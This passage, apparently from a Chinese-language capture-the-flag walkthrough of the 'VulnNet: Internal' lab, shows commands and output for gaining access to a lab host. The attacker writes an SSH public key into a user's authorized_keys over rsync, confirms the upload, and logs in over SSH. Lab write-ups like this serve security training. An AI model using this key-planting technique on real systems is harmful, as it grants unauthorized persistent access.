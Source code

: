 ```
┌──(root㉿kali)-[~/Downloads]
└─# rsync -vz /root/.ssh/id_rsa.pub rsync-connect@10.10.21.145::files/sys-internal/.ssh/authorized_keys
Password: 
id_rsa.pub

sent 548 bytes  received 35 bytes  50.70 bytes/sec
total size is 563  speedup is 0.97
```

验证一下，确实成功将authorized_keys上传到服务器的ssh目录了。

```
┌──(root㉿kali)-[~/Downloads]
└─# rsync -avz rsync-connect@10.10.21.145::files/sys-internal/.ssh/ /root/Downloads/
Password: 
receiving incremental file list
./
authorized_keys

sent 58 bytes  received 578 bytes  55.30 bytes/sec
total size is 563  speedup is 0.89
```

从sys-internal/.xsession-errors文件中，可以看出HOME=/home/sys-internal。因此得知用户名为sys-internal。

利用SSH远程登录sys-internal用户。

```
┌──(root㉿kali)-[~/.ssh]
└─# ssh sys-internal@10.10.21.145   
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sys-internal@vulnnet-internal:~$ whoami
sys-internal
sys-internal@vulnnet-internal:~$ id
uid=1000(sys-internal) gid=1000(sys-internal) groups=1000(sys-internal),24(cdrom)
sys-internal@vulnnet-internal:~$ 
```
